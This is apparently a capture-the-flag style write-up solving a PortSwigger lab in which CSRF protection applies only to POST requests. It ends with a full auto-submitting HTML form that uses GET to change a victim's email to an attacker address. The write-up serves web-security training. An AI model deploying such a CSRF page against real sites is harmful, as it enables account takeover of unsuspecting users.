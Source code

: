 # Lab: CSRF where token validation depends on request method
 This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

After logging in with the provided credentials we can see the form to change email.  
![](./img/Lab_2_Change_email_form.png)


HTML for the form:  
![](./img/Lab_2_Form_HTML.png)


And the hint given to us in the lab instructions we can use the OPTIONS method to check what methods are in the "Allow" header of the endpoint.  
![](./img/Lab_2_Options_Method.png)


Now we know that the GET  method is allowed on the endpoint too. Let's try to use this to change our own email first. By sending a GET request with the new email as a parameter in the URL we can change the email.  
![](./img/Lab_2_GET_request.png)


![](./img/Lab_2_GET_request_results.png)


Let's create a form that uses the GET method instead and is submitted directly when the script tag and JavaScript is loaded in the browser and deliver to the victim.
```html
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a2c00ab036a298c8104029b007200ca.web-security-academy.net/my-account/change-email" method="GET">
        <label>Email</label>
        <input required type="email" name="email" value="evil%40pwned.com">
        <input required type="hidden" name="csrf" value="OkqRdEPHyc8ZKChfIG1KE9Be8iBAbrgy">
        <button class='button' type='submit'> Update email </button>
    </form>
		<script>
			document.forms[0].submit()
		</script>
</body>
</html>
```


![](./img/Lab_2_Solved.png)